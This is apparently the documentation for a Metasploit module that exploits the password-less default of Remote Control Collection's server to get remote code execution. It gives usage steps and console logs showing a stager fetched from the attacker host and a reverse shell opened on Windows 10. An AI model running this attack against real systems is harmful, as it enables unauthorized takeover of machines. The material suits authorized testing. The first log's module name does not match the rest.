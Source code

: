 ## Vulnerable Application

This module utilizes the Remote Control Server's, part
of the Remote Control Collection by Steppschuh, protocol
to deploy a payload and run it from the server.  This module will only deploy
a payload if the server is set without a password (default).
Tested against 3.1.1.12, current at the time of module writing

Version 3.1.1.12 can be downloaded from http://remote-control-collection.com/
    
## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/misc/remote_control_collection_rce`
4. Set `rhost` and `lhost` as required.
5. Do: `run`
6. You should get a shell as the user who is running Remote Mouse.

## Options

### PATH

The location to write the payload to
Defaults to `%temp%\\` aka `c:\\Windows\\Temp\\` on most systems.

### SLEEP

The length of time, in seconds, to sleep between each command. This gives the remote program time to process the command on screen.
Defaults to `1`.

## Scenarios

###  Remote Control Server 3.1.1.12 on Windows 10

```
resource (remote_mouse.rb)> use exploits/windows/misc/remote_mouse_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_mouse.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (remote_mouse.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (remote_mouse.rb)> set verbose true
verbose => true
msf exploit(windows/misc/remote_mouse_rce) > run

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] 1.1.1.1:1978 - Running automatic check ("set AutoCheck false" to disable)
[+] 1.1.1.1:1978 - The target appears to be vulnerable. Received handshake with version: 411
[*] 1.1.1.1:1978 - Connecting
[*] 1.1.1.1:1978 - Sending Windows key
[*] 1.1.1.1:1978 - Opening command prompt
[*] 1.1.1.1:1978 - Sending stager
[*] 1.1.1.1:1978 - Using URL: http://2.2.2.2:8080/
[+] 1.1.1.1:1978 - Payload request received, sending 73802 bytes of payload for staging
[+] 1.1.1.1:1978 - Payload request received, sending 73802 bytes of payload for staging
[*] 1.1.1.1:1978 - Executing payload
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 1.1.1.1
[*] Command shell session 1 opened (2.2.2.2:4444 -> 1.1.1.1:49962) at 2022-09-27 16:33:02 -0400
[*] 1.1.1.1:1978 - Server stopped.
[!] 1.1.1.1:1978 - This exploit may require manual cleanup of 'c:\Windows\Temp\NADYvmtxr.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>whoami 
whoami
win10prolicense\windows

C:\Users\windows>systeminfo
systeminfo

Host Name:                 WIN10PROLICENSE
OS Name:                   Microsoft Windows 10 Pro
OS Version:                10.0.16299 N/A Build 16299
```

###  Remote Control Server 3.1.1.12 on Windows 10, with a password

Expected to fail.

```
resource (remote_control_collection.rb)> use exploits/windows/misc/remote_control_collection_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (remote_control_collection.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (remote_control_collection.rb)> set lhost 2.2.2.2
lhost => 2.2.2.2
resource (remote_control_collection.rb)> set verbose true
verbose => true
msf exploit(windows/misc/remote_control_collection_rce) > exploit

[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Connecting and Sending Windows key
[*] Opening command prompt
[*] Sending stager
[*] Using URL: http://2.2.2.2:8080/
[*] Executing payload
[*] Server stopped.
[!] This exploit may require manual cleanup of 'c:\Windows\Temp\OqsTi76PX80it.exe' on the target
[*] Exploit completed, but no session was created
```
